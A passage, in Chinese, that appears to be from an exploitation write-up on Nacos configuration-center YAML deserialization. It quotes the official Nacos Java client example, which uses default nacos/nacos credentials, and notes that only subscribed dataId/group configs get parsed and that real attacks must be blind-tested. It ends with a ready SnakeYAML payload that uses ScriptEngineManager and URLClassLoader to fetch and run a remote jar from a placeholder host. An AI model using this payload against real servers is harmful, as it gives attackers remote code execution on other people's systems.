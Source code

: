 如下是从客户端连接服务端的官方示例：

```java
import com.alibaba.nacos.api.NacosFactory;
import com.alibaba.nacos.api.config.ConfigChangeEvent;
import com.alibaba.nacos.api.config.ConfigService;
import com.alibaba.nacos.client.config.listener.impl.AbstractConfigChangeListener;

import java.util.Properties;


public class Client {
    public static void main(String[] args) throws Exception {
        String serverAddr = "127.0.0.1:8848";
        String dataId = "test.yaml";
        String group = "DEFAULT_GROUP";
        Properties properties = new Properties();
        properties.put("serverAddr", serverAddr);
        properties.put("username", "nacos");
        properties.put("password", "nacos");

        ConfigService configService = NacosFactory.createConfigService(properties);
        String content = configService.getConfig(dataId, group, 5000);
        System.out.println(content);
        configService.addListener(dataId, group,
            new AbstractConfigChangeListener() {
                @Override
                public void receiveConfigChange(
                    ConfigChangeEvent configChangeEvent) {
                    System.out.println(configChangeEvent);
                }
            });

        while (true) {
            try {
                Thread.sleep(1000);
            } catch (InterruptedException e) {
                e.printStackTrace();
            }
        }
    }
}
```

从这个示例中可以看到，只有在 Client 中配置（dataId&group）了的文件才能触发 Yaml 反序列化，而不是所有的配置都能触发。

修改对应的配置（实战只能盲测），设置为 yaml 格式和如下内容的 payload：

```yaml
!!javax.script.ScriptEngineManager [
    !!java.net.URLClassLoader [
        [!!java.net.URL ["http://xx.xx.xx.xx/yaml-payload.jar"]],
    ],
]
```
